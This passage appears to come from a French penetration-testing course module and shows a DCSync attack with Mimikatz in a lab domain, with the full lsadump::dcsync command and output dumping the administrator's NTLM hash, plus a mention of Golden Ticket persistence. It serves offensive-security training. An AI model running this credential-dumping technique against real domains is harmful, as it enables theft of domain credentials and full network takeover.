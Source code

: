 Nous pouvons également effectuer l'attaque avec Mimikatz. En utilisant Mimikatz, nous devons cibler un utilisateur spécifique. Ici, nous ciblerons le compte administrateur intégré. Nous pourrions également cibler le `krbtgt`compte et l'utiliser pour créer un `Golden Ticket`pour la persistance, mais cela sort du cadre de ce module.

#### Effectuer l'attaque avec Mimikatz

  Effectuer l'attaque avec Mimikatz

```
PS C:\htb> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : administrator
User Principal Name  : administrator@inlanefreight.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 10/27/2021 6:49:32 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 88ad09182de639ccc6579eb0849751cf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4625fd0c31368ff4c255a3b876eaac3d

<SNIP>

```

* * * * *

Passer à autre chose
--------------------
